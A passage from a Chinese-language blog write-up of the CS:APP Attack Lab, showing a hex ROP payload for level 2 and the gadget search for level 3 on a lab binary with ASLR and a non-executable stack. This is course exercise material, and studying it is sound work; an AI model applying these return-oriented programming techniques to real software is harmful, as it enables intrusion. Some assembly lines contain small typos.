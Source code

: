 ```assembly
popq %rax
movq %rax,%rdi
ret
```

构造出来的payload就是

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

这个应该不难，但是我还是想知道我的哪里有问题！！！

### level3

首先想想我们要干嘛？构造在一个特殊的地方构造字符串然后把字符串字符首地址传给`rdi`就能直接攻击成功。开启了栈只读和地址随机化，那么我们还是只能通过栈去溢出，肯定是要先把字符串写在后面，中间全是`gadget`。然后通过确定`rsp`的值以及我们已构造的`gadget`，我们就可以很轻松地获得字符串地址。

那么我们需要的汇编代码就是

```assembly
//movq %rsp,%rdi
movq %rsp,%raxa
movq %rax,%rdi
add $offset,%rdi
ret
```

这里主要是add这条指令，别问我为什么刚才的思路打断了，都是上面那个`level2`搞得，就佛系一点把，先把它传给`rax`再给`rdi`也一样的，即使我不知道一步到位为什么不行。接下来是寻找`gadget`了。其它的都能很好找到，唯独`add`这条指令不好搞，但是我们可以大致看一下规律。

![attacklab_rtarget_level3_1.png](https://i.loli.net/2021/04/26/Sl1a8dpCuFRA7jO.png)

我们可以很清晰地发现，`add $xxx,%rdi`的一般规律就是 `48 83 c7` 然后后面一个字节确定立即数的大小那么就去搜索一下`48 83 c7`，但是很快就会发现，搜不到这个`gadget`。那么换一种思路，既然我们先传给了`rax`那我们可以先让`rax`加上那个值啊。说干就干，汇编再反之后得到字节码`48 05 00`发现还是找不到，一筹莫展之际，你突然想到，可以利用寄存器的低位，他们的操作码也有很大区别的，比如`rax`的低32位是`eax`，低16位是`ax`，低8位是`al`，我们一个个找过去发现add al有一个。04 37 这刚好是al+0x37的gadget。

![attacklab_rtarget_level3_2.png](https://i.loli.net/2021/04/26/PiXlM34VsBgL1qT.png)

这个大小也是非常合适的，在尽量保证能够全覆盖的情况下保证`payload`越小越好，大了容易出事。

那么如此我们就只到我们重新堆的代码结构了

```assembly
movq %rsp,%rax
add $0x37,al
movq %rax,%rdi
ret
```
